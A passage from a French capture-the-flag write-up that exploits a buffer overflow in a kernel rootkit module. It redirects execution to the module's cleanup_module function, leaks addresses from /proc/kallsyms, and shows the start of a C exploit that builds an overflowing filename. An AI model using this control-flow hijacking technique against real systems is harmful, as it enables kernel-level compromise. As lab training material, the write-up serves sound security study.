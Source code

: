 ## Exploitation du buffer overflow

Au début, dans l'euphorie je m'étais mis en tête d'obtenir un shell root en appelant ```commit_creds(prepare_kernel_cred(0))```, puis en exécutant un shell dans notre exploit.

On énumère les protections activées sur le système:

* SMEP off
* KASLR on

Mais rappelons-nous d'abord l'objectif principal du challenge:
> Votre mission : aider la victime à récupérer le contenu des fichiers affectés. Une fois connecté en SSH, lancez le wrapper pour démarrer le challenge.

On doit récupérer le contenu des fichiers affectés, donc pas besoin d'un shell root. 
Il est seulement nécessaire de faire en sorte de désactiver ce maudit rootkit.

Wait a minute ...
La fonction **cleanup_module** fait tout ce travail à notre place !
Pourquoi ne pas rediriger le flux d'exécution vers cette fonction ?

C'est parti, on fabrique un petit exploit qui va faire ce travail pour nous !

Un petit résumé du plan de l'exploitation:

1. Créer un fichier commençant par **ecsc_flag_** suivi de notre payload (102 caractères de padding).
2. Ajouter l'adresse de **cleanup_module**.
3. Ajouter une adresse de retour pour sortir sans que le kernel crash: **sys_exit** fera l'affaire.
4. Appeler l'appel système **getdents** pour déclencher l'overflow et désactiver le rootkit.

On peut récupérer l'adresse des différentes fonctions avec /proc/kallsyms:

```bash
cat /proc/kallsyms | grep "cleanup_module"
cat /proc/kallsyms | grep "sys_exit"
```

On obtient (adresses valide jusqu'à un prochain redémarrage du noyau, à cause de KASLR):

```
cleanup_module @ ffffffffc02df36e
sys_exit @ ffffffffa40390f0
```

On code tout ça, ce qui nous donne:

(Excusez-moi à l'avance pour la non propreté de ce code)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/syscall.h>

#define RIP_OFFSET 102

// cleanup_module @ ffffffffc02df36e
// sys_exit @ ffffffff9a63a390

int main(void) {
	FILE *file;
	char filename[1024];
	char buf[256];

	strncpy(filename, "ecsc_flag_", sizeof(filename) - 1);
	for(int i = 0; i < RIP_OFFSET; i++) filename[strlen(filename)] = 'A';
```